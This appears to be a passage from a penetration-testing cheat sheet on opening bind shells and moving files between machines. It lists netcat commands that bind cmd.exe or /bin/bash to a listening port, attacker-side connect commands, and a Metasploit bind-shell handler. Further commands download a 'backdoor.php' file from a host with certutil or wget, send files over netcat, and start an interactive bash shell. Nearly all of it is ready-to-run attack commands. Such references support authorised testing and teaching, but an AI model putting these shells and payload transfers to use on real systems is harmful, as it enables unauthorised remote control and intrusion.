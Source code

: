 <pre class="language-sh"><code class="lang-sh"># Windows (target)
nc -nvlp &#x3C;target_port> -e cmd.exe 
nc.exe -nvlp &#x3C;target_port> -e cmd.exe

# Linux (target)
nc -nvlp &#x3C;target_port> -e /bin/bash

<strong># Linux (attacker)
</strong>nc -nv &#x3C;target_ip> &#x3C;target_port>

<strong># Windows (attacker)
</strong>nc.exe -nv &#x3C;target_ip> &#x3C;target_port>


# Linux Metasploit (attacker)
use multi/handler
set payload generic/shell_bind_tcp # Try also "linux/x64/shell_bind_tcp"
set rhost &#x3C;target_ip>
set lport &#x3C;target_port>
run
</code></pre>

## Transfer files

```sh
# HTTP Windows
certutil -urlcache -f http://<host>/backdoor.php backdoor.php
# HTTP Linux
wget http://<host>/backdoor.php

# Netcat [useful when the victim cannot reach you, but you can]
nc -nvlp <target_port> > backdoor.php         # [recepient]
nc -w 3 <ip> <target_port> < backdoor.php     # [sender]

# Tips
# 1 tip - Progress Indicator in netcat
pv backdoor.php | nc -w 3 <ip> <target_port> # [sender] (install pv)
# 2 tip - Check md5
md5sum backdoor.php
# 3 tip - create file with base64
cat file | base64 -w 0 # get base64 [output is a single continuous line]
echo <output_base64> | base64 -d > file # create file

# Note: netcat "-n" option means no DNS (only IP)
```

## \[Fully] interactive shell

**Interactive shell**

```sh
/bin/bash -i # Linux
```
